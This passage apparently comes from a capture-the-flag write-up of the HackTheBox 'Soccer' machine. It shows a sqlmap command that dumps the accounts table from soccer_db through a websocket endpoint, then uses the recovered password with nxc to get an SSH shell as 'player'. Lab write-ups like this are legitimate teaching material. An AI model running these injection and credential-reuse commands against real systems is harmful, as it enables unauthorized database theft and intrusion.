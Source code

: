 And now we dump all the data from the database **soccer_db** and from its table named accounts.

```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' -D soccer_db -T accounts --dump --dbms mysql --batch --level 5 --risk 3 --threads 10
```

![image.png](/assets/images/Soccer_HTB/image%2020.png)

Now we have valid credentials. Lets try to validate these credentials across the box.

### Shell as Player

```bash
nxc ssh soccer.htb -u player -p PlayerOftheMatch2022
```

![image.png](/assets/images/Soccer_HTB/image%2021.png)
